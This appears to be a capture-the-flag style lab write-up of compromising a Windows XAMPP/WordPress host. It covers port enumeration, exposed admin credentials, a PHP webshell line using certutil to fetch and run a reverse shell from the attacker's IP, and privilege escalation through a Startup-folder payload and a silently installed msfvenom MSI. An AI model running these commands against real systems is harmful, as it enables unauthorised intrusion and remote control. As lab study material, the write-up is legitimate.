 #Pwned! 
```IP
192.168.171.55
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.171.55 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON          VERSION                                    21/tcp   open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta   
| ftp-syst:                                                                             |_  SYST: UNIX emulated by FileZilla                                                    80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.171.55/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.171.55/dashboard/ 
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6 
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds? syn-ack ttl 125
3306/tcp open  mysql?        syn-ack ttl 125
| fingerprint-strings: 
|   DNSStatusRequestTCP, Help, Kerberos, LANDesk-RC, LPDString, NULL, RPCCheck, SMBProgNeg, TLSSessionReq, X11Probe:  
|_    Host '192.168.45.201' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '192.168.45.201' is not allowed to connect to this MariaDB server
```

## Nmap UDP


# Enumeration

## HTTP
### Technologies
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093827.png?raw=true)
img
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093638.png?raw=true)
phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093618.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093711.png?raw=true)
xampp
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028093746.png?raw=true)
Webdav arbitrary file upload not working
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028100413.png?raw=true)
Remember to use the key words obtained in EVERYTHING even directories:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028110304.png?raw=true)
with admin:FeltHeadwallWight357 we can enter in the wp-admin subdirectory

we can edit php files in the appearance utility
```
<?php $exec = system('certutil -urlcache -f http://192.168.45.201:8000/rev.exe rev.exe && rev.exe', $val) ?>
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028113157.png?raw=true)
we create our revshell ang get a shell
## SMB
enum4linux
```
enum4linux -a -u "guest" -p "" 192.168.171.55
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028095228.png?raw=true)
with a non existant user and password we get
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028100934.png?raw=true)

Files in Shenzi share
http://localhost/test.php
http://localhost/myhome/test.php
 A password file containing credentials and some tokens
```
 522b574a21767922222439295b4b2975
```
```

```
 further enumeration reveals that 
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028102220.png?raw=true)
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028113229.png?raw=true)


## Automated

### Peass
unquoted and allaccess files on startup
C:\Users\shenzi\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
iwr http://192.168.45.201:8000/rev1234.exe -outfile .\Start.exe
```
```
copy Start.exe C:\Users\shenzi\AppData\Roaming\Microsoft\Windows\
```
C:\Users\shenzi\AppData\Local\Microsoft\OneDrive\OneDrive.exe
Packages msi are installed automatically
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028160908.png?raw=true)


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.201 LPORT=12134 -f msi -o shell.msi
```
```
$pkg = 'C:\Users\shenzi\shell.msi'
```
```
start-process msiexec "/i $pkg /qn"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241028161423.png?raw=true)

### Mimikatz


